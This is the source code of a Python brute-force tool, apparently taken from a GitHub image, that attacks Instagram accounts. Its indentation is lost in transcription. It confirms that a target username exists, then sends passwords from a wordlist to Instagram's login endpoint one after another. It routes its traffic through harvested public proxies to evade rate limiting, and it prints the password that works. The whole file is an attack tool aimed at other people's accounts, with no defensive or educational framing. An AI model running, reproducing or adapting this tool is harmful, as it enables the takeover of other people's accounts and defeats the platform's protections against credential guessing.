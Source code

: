 
import argparse
import requests
import os
import codecs

import socket
import socks

import asyncio
from proxybroker import Broker

#args parser
parser = argparse.ArgumentParser()
parser.add_argument('username', help='Instagram username of the user you want to attack')
parser.add_argument('passwords_file', help='A passwords file for the software')
args = parser.parse_args()
if not os.path.exists(args.passwords_file):
exit('[*] Sorry, can\'t find file named "%s"' % args.passwords_file)

#help functions
#remove empty lines and duplicates
def cleanList(items):
newList = []
for x in items:
if not (x == None or x == ''):
if not x in newList:
newList.append(x)
return newList

#main class - Instagram bruteforce
class Instabrute():
def __init__(self, username, passwords):
self.username = username
if not self.userExists():
exit('[*] Can\'t find user named "%s"' % self.username)

self.passwords = passwords

self.attempts = 0

def userExists(self):
r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username)
if r.status_code == 404:
return False
elif r.status_code == 200:
return True
else:
return False

def _next(self):
#add 1 attempt to the counter
self.attempts += 1
#remove the first password (the current)
self.passwords.pop(0)
#try the next password
self.login()

def login(self):
sess = requests.Session()

#requests headers and cookies
sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
sess.headers.update({
'user-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.167 Safari/537.36',
'x-instagram-ajax':'1',
'X-Requested-With': 'XMLHttpRequest',
'origin': 'https://www.instagram.com',
'ContentType' : 'application/x-www-form-urlencoded',
'Connection': 'keep-alive',
'Accept': '*/*',
'Referer': 'https://www.instagram.com',
'authority': 'www.instagram.com',
'Host' : 'www.instagram.com',
'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
'Accept-Encoding' : 'gzip, deflate'
})

#update csrf token for the first time
sess.headers.update({'X-CSRFToken' : sess.get('https://www.instagram.com/').cookies.get_dict()['csrftoken']})

#try to login
r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={
'username':self.username,
'password':self.passwords[0]
}, allow_redirects=True)

if 'authenticated' in r.text:
if r.json()['authenticated']:
exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
#update csrf token after login try (if you want to keep the session)
#sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
else:
print ('[%s] Can\'t login with "%s"' % (str(self.attempts+1), self.passwords[0]))
#try the next password
self._next()
else:
if 'message' in r.text:
if r.json()['message'] == 'Please wait a few minutes before you try again.':
pass #Do you want to wait or use proxy?
elif r.json()['message'] == 'checkpoint_required':
exit('[%s] Yay, the password is "%s"' % (str(self.attempts+1), self.passwords[0]))
else:
print ('[MESSAGE] %s' % r.json()['message'])
else:
print (r.text)

#find proxy
async def proxything(proxies):
while True:
proxy = await proxies.get()
if proxy is None: break
print('[*] Found proxy: %s' % proxy)
socks.set_default_proxy(socks.HTTP, proxy.host, proxy.port)
socket.socket = socks.socksocket
proxies = asyncio.Queue()
asyncio.get_event_loop().run_until_complete(asyncio.gather(Broker(proxies).find(types=['HTTPS', 'HTTP'], limit=1), proxything(proxies)))

#main action
with codecs.open(args.passwords_file, 'r', 'utf-8') as file:
passwords = file.read().splitlines()
if len(passwords) < 1:
exit('[*] The file is empty')
else:
passwords = cleanList(passwords)
print ('[*] %s passwords loaded successfully' % len(passwords))

bruteforce = Instabrute(args.username, passwords)
bruteforce.login()

